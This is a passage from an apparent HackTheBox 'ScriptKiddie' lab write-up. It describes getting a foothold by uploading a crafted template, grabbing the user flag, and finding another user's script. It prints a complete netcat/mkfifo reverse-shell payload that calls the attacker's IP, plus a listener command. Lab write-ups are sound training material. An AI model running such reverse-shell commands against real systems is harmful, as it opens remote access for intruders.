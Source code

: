![](/images/HTB/ScriptKiddie/error.png)

We know that we just ran this script before and it was fine, so perhaps it does not like something in our payload. The biggest issue is usually a bad character that needs to be escaped. After some trial and error I found that escaping the '-' before '-i' fixed the issue, so our new payload becomes `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh \-i 2>&1|nc 10.10.14.16 6868 >/tmp/f`. Same as before we upload the template, setting the LHOST to 127.0.0.1 and setting the OS to Android, however this time we need a netcat listener waiting for our callback. We do that with `nc -lvnp 6868`. Press generate on the website and we have our shell!

![](/images/HTB/ScriptKiddie/shell.png)

# Getting user

The user flag is actually granted to us immediately after getting the shell. Our shell spawns as the user 'kid' so all we need to do is navigate to his home directory and grab the flag.

![](/images/HTB/ScriptKiddie/user.png)

# Transitioning to the pwn user

Some quick manual enumeration shows us that there is another user on this box, the user pwn. Located inside of his home directory is a script called 'scanlosers.sh'. Let's have a look at this script.

![](/images/HTB/ScriptKiddie/scanlosers.png)
